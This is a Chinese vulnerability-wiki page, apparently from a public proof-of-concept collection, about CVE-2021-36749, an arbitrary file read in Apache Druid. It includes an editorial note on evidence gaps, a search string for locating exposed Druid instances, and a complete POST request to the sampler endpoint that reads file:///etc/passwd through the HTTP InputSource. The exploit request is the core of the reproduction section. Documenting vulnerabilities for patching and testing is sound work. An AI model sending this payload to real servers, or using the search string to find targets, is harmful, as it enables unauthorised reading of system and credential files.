




# Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：相关HTTP InputSource可传file URI、sampler访问权限或未鉴权部署、服务账户可读文件
- 证据范围：与28同一请求骨架，仅省略listDelimiter；无独立源码分析，主要图片操作

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- version仅Apache Druid不是版本，未授权结论未列配置/权限条件
- HTTP首行缺HTTP版本/Host/Content-Type，需还原规范请求
- 缺修复版，宜整合28并保留图源；数据库分类更适合

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

由于用户指定 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。

## 漏洞影响

```
Apache Druid
```

## 网络测绘

```
title="Apache Druid"
```

## 漏洞复现

主页面



复现过程





请求包为

```
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```




---

> 来源：Threekiii/Awesome-POC
